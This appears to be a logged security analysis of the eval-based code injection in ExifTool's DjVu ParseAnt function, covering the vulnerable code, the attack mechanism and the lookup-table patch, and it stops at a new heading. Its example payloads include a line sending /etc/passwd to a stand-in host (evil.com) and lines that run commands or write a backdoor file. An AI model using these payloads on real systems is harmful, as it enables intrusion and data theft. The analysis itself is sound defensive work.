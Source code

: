 **Impact:** CRITICAL - This is a classic code injection vulnerability that allows arbitrary code execution


vulnerability_technical_details
[19:19:55]
TECHNICAL VULNERABILITY ANALYSIS - CVE-WORTHY CODE INJECTION

**Function:** ParseAnt() in lib/Image/ExifTool/DjVu.pm
**Lines:** 230-237 (vulnerable), 230-234 (patched)

**Root Cause:**
The vulnerable code uses Perl's `eval` function with double-quoted string interpolation to process escape sequences from DjVu annotation data. This is extremely dangerous as it allows arbitrary Perl code execution.

**Vulnerable Pattern:**
```perl
$tok =~ s{\\(.)|([\$\@]|\\$)}{'\\'.($2 || $1)}sge;  # Insufficient protection
$tok = eval qq{"$tok"};  # DANGEROUS: Direct eval of user input
```

**Attack Mechanism:**
1. Attacker crafts malicious DjVu file with annotation containing Perl code
2. ExifTool processes the file and calls ParseAnt()
3. Malicious payload in quoted string gets passed to eval
4. Arbitrary Perl code executes with ExifTool's privileges

**Example Payload Concepts:**
- `\"; system('malicious_command'); \"`
- `\"; use LWP::Simple; get('http://evil.com/steal?data='.`cat /etc/passwd`); \"`
- `\"; open(F,'>/tmp/backdoor'); print F 'backdoor_code'; close(F); \"`

**Bypass Potential:**
The regex protection `s{\\(.)|([\$\@]|\\$)}{'\\'.($2 || $1)}sge` is insufficient and could potentially be bypassed with carefully crafted input.

**Fix Analysis:**
The patch replaces the dangerous `eval` with a safe lookup table approach:
```perl
my %esc = ( a => "\a", b => "\b", f => "\f", n => "\n",
            r => "\r", t => "\t", '"' => '"', '\\' => '\\' );
$tok =~ s/\\(.)/$esc{$1}||'\\'.$1/egs;
```

This eliminates code execution by only allowing predefined escape sequences.

**Severity:** CRITICAL (10.0 CVSS)
- Attack Vector: Network/Local (via file processing)
- Attack Complexity: Low
- Privileges Required: None
- User Interaction: None (automated processing)
- Impact: Complete system compromise


attack_surface_analysis
[19:20:32]
ATTACK SURFACE ANALYSIS
